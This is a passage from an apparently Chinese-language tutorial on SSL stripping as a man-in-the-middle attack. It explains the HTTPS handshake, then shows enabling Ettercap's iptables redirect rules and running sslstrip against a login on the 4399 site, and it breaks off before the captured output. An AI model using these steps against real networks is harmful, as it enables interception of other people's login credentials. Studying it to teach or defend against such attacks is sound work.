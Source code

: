 既然这个实验也是属于MITM，其中的思路和上一个一模一样，我就不再说了，但我们要知道一些关于HTTPS的知识。

如果要用一句话来概括HTTPS的话，那就是:

> HTTPS协议是由HTTP+SSL/TLS构建的可进行加密传输、身份认证的网络协议

HTTPS的通信过程和HTTP略有不同：  
1. 客户端与Web服务器进行三次握手，建立TCP链接  
2. 客户端向Web服务器的80端口发送HTTP请求  
3. Web服务器向客户端发送应答状态码为302的HTTP响应，把基于HTTP传输的网站重定向到基于HTTPS的同一个网站  
4. 客户端向Web服务器的443端口发送HTTPS请求  
5. Web服务器向客户端发送包含数字签名的证书（关于数字签名证书什么的可以去看看这个：[数字签名是什么？](http://www.ruanyifeng.com/blog/2011/08/what_is\_a\_digital\_signature.html)）  
6. 客户端验证证书  
7. 建立基于SSL/TLS的加密通信（失败的话就会提示证书过期或不可信）  
8. 客户端与Web服务器进行四次握手，断开TCP链接

看出什么了吗？  
HTTPS之所以安全的原因就是它把数据用SSL加密了，但要是我们在SSL/TLS加密之前做一些手脚的话，HTTPS就不再安全了。  
在第三步，只要不让客户端知道Web服务器想要把它重定向到HTTPS的网站，它就会继续向Web服务器发送HTTP报文，而只要让Web服务器以为和客户端正常通信的话在这部分一丝痕迹都不会泄漏。但是我们怎么能做到这些呢？别忘了我们的攻击者作为中间人处于Web服务器和靶机之间，我们可以通过把靶机发往攻击者的HTTP报文修改成HTTPS再发送给Web服务器，这样在Web服务器看来这只是一次正常的和客户端通信而已。这个原理和小时侯老师让你交50学杂费然而你找老妈要了100是一模一样的，但不一样的是Web服务器和靶机不会有一天碰在一起发现了真相然后把你打一顿。

我们要启用Kali里自带的一个工具:SSL strip来实现这次攻击  
在使用之前我们需要先修改一下Ettercap的配置文件

    $ sudo vim /etc/ettercap/etter.conf
    
找到如下的部分，把# if you use iptables:下面两个条目前的#去掉

    #---------------
    #     Linux
    #---------------

    # if you use ipchains:
       #redir_command_on = "ipchains -A input -i %iface -p tcp -s 0/0 -d 0/0 %port -j REDIRECT %rport"
       #redir_command_off = "ipchains -D input -i %iface -p tcp -s 0/0 -d 0/0 %port -j REDIRECT %rport"
 
    # if you use iptables:
       #redir_command_on = "iptables -t nat -A PREROUTING -i %iface -p tcp --dport %port -j REDIRECT --to-port %rport"
       #redir_command_off = "iptables -t nat -D PREROUTING -i %iface -p tcp --dport %port -j REDIRECT --to-port %rport"

现在可以开始使用SSL strip了

    $sudo sslstrip -a -f -k
    
（-a记录所有的SSL和HTTP，-f代替锁图标的安全需求，-k中断在进行的会话）

我们这次用4399试试（7k7k：4399给了你多少钱？我7k7k给你双倍！(￣^￣) ）  
在登录框输入用户名ilove4399（7k7k：(￣ε(#￣)☆╰╮(￣▽￣///)）密码password  
Ettercap返回了如下数据：
